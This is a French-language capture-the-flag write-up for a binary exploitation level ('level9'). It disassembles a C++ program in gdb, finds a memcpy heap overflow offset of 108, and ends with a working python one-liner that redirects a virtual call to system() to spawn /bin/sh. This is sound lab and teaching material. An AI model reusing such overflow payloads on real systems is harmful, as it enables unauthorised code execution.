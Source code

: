 On se connecte sur le level9, ou se trouve un **binaire** <code>level9</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.

(gdb) > i functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

Apres analyse du fichier (\*\*source.c\*\*), on se rend compte que le programme appel la fonction **memcpy** que nous pourront exploit.
On commence par trouver l'offset

```gdb
(gdb) > b *main+136
Breakpoint 1 at 0x804867c
(gdb) > b *main+140
Breakpoint 2 at 0x8048680
(gdb) > b *main+142
Breakpoint 3 at 0x8048682
(gdb) > run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 1, 0x0804867c in main ()
(gdb) > p $eax
$1 = 134520844
(gdb) > p/x $eax
$2 = 0x804a00c
(gdb) > x $eax
0x804a00c:      0x41414141
(gdb) > s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x08048680 in main ()
(gdb) > x $eax
0x804a078:      0x62626262
(gdb) > s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 3, 0x08048682 in main ()
(gdb) > x $eax
0x62626262:     Cannot access memory at address 0x62626262
(gdb) > p 0x62
$3 = 98
```

98 correspond à la valeur ascii de 'b', on a donc **overflow**à partir des 'b', nous avons donc passé 27 * 4 lettres, ce qui correspond a un **offset** de 108.

> OFFSET = 108

Regardont ce qu'il se passe au retour de la fonction

```gdb
(gdb) > d 1
(gdb) > d 2
(gdb) > d 3
(gdb) > b *main+136
Breakpoint 4 at 0x804867c
(gdb) > b *main+140
Breakpoint 5 at 0x8048680
(gdb) > b *main+142
Breakpoint 6 at 0x8048682
(gdb) > run
The program being debugged has been started already.
Start it from the beginning? (y or n) > y

Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 4, 0x0804867c in main ()
(gdb) > x $eax
0x804a00c:      0x41414141
(gdb) > ni

Breakpoint 5, 0x08048680 in main ()
(gdb) > x $eax
0x804a078:      0x62626262
(gdb) > ni

Breakpoint 6, 0x08048682 in main ()
(gdb) > x $eax
0x62626262:     Cannot access memory at address 0x62626262
(gdb)
```

On remarque que en premier lieu, notre eax pointe sur nos 'A' et que nous possédons l'adresse, et que par jeu de pointeur, 2 instructions après, nous pouvons voir que la valeur de l'addresse contenu dans eax est copier dans edx (dans notre exemple, la valeur copier est celle de nos 'b'). Nous pouvons également constater que par la suite, l'instruction situé à l'adresse contenue dans edx est call. 
Nous pouvons donc insérer l'addresse de system au niveaux de nos 'A'.
Nous pouvons indiquer l'addresse de notre insertion au niveau de nos 'b' pour qu'elle soit exécuté par le call. Les arguments lu dans la mémoire seront  les octets suivant nos 'b'. 

```gdb
(gdb) b main
Breakpoint 1 at 0x80485f8
(gdb) run
Starting program: /home/user/level9/level9

Breakpoint 1, 0x080485f8 in main ()
(gdb) p *system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

> SYSTEM = 0xb7d86060


```bash
> ./level9 `python -c 'print "\x60\x60\xd8\xb7" + "A"*104 + "\x0c\xa0\x04\x08;/bin/sh"'`
```
